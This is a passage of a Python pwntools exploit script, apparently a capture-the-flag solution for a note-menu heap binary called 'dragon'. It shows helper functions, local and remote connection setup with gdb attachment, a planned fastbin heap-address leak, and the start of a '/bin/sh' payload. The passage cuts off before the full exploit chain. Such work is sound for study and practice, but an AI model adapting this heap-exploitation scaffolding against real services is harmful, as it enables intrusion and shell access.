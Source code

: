 ```python
    p.recvuntil("content: ")
    if content != '':
        p.send(content)

    
def del_note(_id):
    p.recvuntil(">> ")
    p.sendline("3")
    p.sendline(str(_id))


def edit_note(_id, content):
    p.recvuntil(">> ")
    p.sendline("2")
    p.sendlineafter("id: ", str(_id))
    p.sendafter("content: ", content)


def list_note(_id):
    result = []
    p.recvuntil(">> ")
    p.sendline("4")
    p.sendline(str(_id))
    p.recvuntil("input note id: ")
    p.recvuntil("id: ")
    result.append(int(p.recvuntil("\n").strip()))
    result.append(p.recvuntil("\n")[6:].strip())
    result.append(p.recvuntil("\n")[9:].strip())
    return result


_program = 'dragon'
_pwn_remote = 0
_debug = int(sys.argv[1]) if len(sys.argv) > 1 else 0

elf = ELF('./' + _program)

if _pwn_remote == 0:
    libc = ELF('./libc.so.6')
    p = process('./' + _program)

    if _debug != 0:
        if elf.pie:
            _bps = [] #breakpoints defined by yourself, not absolute addr, but offset addr of the program's base addr 
            _offset = __get_base(p, os.path.abspath(p.executable))
            _source = '\n'.join(['b*%d' % (_offset + _) for _ in _bps])
        else:
            _source = 'source peda-session-%s.txt' % _program
        gdb.attach(p.proc.pid, execute=_source)
else:
    libc = ELF('./libc6-i386_2.19-0ubuntu6.9_amd64.so') #todo
    p = remote('8.8.8.8', 4002)	#todo



"""
info leak heap base addr, malloc 2 chunk, then free, fastbin chunk link list forms in memory, then alloc 1 chunk, then print the note.
"""

payload = "/bin/sh\x00"
add_note(0x18, payload, "\x00")
```